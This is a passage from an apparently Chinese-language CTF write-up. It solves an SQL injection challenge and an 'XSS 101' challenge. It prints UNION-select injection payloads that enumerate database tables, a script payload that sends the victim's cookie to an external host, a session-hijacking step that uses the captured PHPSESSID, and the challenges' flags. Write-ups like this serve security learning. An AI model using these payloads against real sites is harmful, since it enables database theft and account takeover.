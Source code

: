 接著來看其中有哪些 table

```!
abac%' union select 1,table_name,3,4,5,6,7,8 from information_schema.tables where table_schema='sqli102' -- #
```

![](https://i.imgur.com/QeMCdeP.png)

看起來是在 `findme` 中

接著來看這張 table 中有哪些欄位

```!
abac%' union select 1,column_name,3,4,5,6,7,8 from information_schema.columns where table_name='findme' -- #
```

![](https://i.imgur.com/014hsN6.png)

看起來欄位名稱就是 flag 了

SCTF{b451c_SQLi_5k1lls}

## XSS 101
![](https://i.imgur.com/hOAZhUn.png)

很通靈的題目 ==

進入頁面後，可以看到有帳號密碼的輸入
![](https://i.imgur.com/QtDH1c6.png)

先隨便輸入後，發現在登入失敗的情況下有一個 `Need help?` 的連結
![](https://i.imgur.com/6sFr0dA.png)

打開後頁面如下
![](https://i.imgur.com/0UR4LUV.png)

可以推測這是要送 xss payload 的地方

經過一些測試後，仍然找不到觸發 XSS 的地方，看了 tutorial guide 後才發現這邊直接在 description 處輸入 `<script> ... </script>` 即可

payload: `<script>let img = new Image(); img.src="https://mymbs.ywcweb.engineer/?cookie="+document.cookie</script>`

送出後，在主機上確實可以看到有一個 PHPSESSIONID

![](https://i.imgur.com/wAavuYS.png)

後來在 guide 中看到有一個隱藏路徑 `admin.php`，且確實有 session

![](https://i.imgur.com/pD7Oy3V.png)

嘗試將其 session 改成擷取到的 `c4ed1e04efb3f47696ffec68839a4d2c`，發現就會拿到 flag 了

![](https://i.imgur.com/axmwgm7.png)

